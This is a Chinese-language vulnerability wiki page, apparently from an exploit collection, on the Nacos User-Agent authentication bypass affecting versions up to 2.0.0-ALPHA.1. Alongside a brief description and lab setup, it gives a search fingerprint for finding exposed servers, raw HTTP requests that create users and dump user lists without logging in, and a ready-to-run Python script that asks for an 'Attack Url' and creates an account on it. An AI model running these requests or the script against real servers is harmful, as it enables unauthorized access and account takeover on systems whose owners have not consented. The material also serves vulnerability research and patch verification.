









Nacos 未授权访问漏洞¶
漏洞描述¶
2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。
漏洞影响¶
Nacos <= 2.0.0-ALPHA.1
网络测绘¶
title="Nacos"
环境搭建¶
https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 nacos/nacos

漏洞复现¶
可以再项目的 issues 中看到大量的关于越权的安全问题的讨论
https://github.com/alibaba/nacos/issues/1105
这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问

这里的请求url简化为
退出用户后在前台访问这个 url

可以发现以及泄露了 ip节点 等数据
同样我们查看用户列表的请求并在前台访问
http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9


这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息
我们尝试创建用户并抓包

返回下列创建成功
{"code":200,"message":"create user ok!","data":null}
同样的我们简化请求
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi


看到有文章说要加上**User-Agent请求头**
User-Agent: Nacos-Server
但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户
- 同样的原理也可以用于修改密码添加配置等
漏洞POC¶
# 添加用户
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
username=aaaa&password=bbbb
# 查看用户
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;
q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
- 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是 /nacos/v1/auth/users
- 可以按目标情况自行修改
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: Nacos <= 2.0.0-ALPHA.1 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
# vuln_url = target_url + "/nacos/v1/auth/users"
vuln_url = target_url + "/v1/auth/users"
headers = {
"User-Agent": "Nacos-Server",
"Content-Type": "application/x-www-form-urlencoded",
}
number = random.randint(0,999)
data = "username=peiqi{}&password=peiqi".format(str(number))
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
if "create user ok!" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
else:
print("\033[31m[x] 创建用户请求失败 \033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
